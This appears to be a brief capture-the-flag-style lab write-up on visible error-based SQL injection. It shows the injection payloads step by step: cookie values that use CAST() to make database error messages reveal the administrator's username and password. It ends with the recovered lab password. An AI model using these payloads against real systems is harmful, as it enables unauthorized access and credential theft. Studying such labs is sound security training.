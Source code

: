 **Extracting sensitive data via verbose (detail) SQL error messages**

**Lab: Visible error-based SQL injection** 
*- Syntax:* CAST((SELECT example_column FROM example_table) AS int)
*- Goals:*
    Exploit the database with SQL Injection to retrieve data about username and password of user `administrator`
*- Analysis:*

1. `SELECT trackingId from trackingIdTable where trachkingId='hyOsSdoGZCwXLL4'`
> 500 internal server error
> Unterminated string literal started at position 52 in SQL SELECT * FROM tracking WHERE id = 'whyOsSdoGZCwXLL4''. Expected  char
    
`SELECT trackingId from trackingIdTable where trachkingId='hyOsSdoGZCwXLL4'--`
> 200 OK
2. Use function CAST():
- `hyOsSdoGZCwXLL4' and CAST(select 1 as int)`
-> 500 internal server error
- `' and 1=CAST((select username from users LIMIT 1) as int)--`
-> In response, error warning returns username as 'administrator'
![alt text](result-1.png)
- ` 'and 1=CAST((select password from users LIMIT 1) as int)--`
-> In repsonse, retrieved data showed password as 'kcqf8o7i337iczcetjpv'
![alt text](result-2.png)
*`LAB SOLVED`*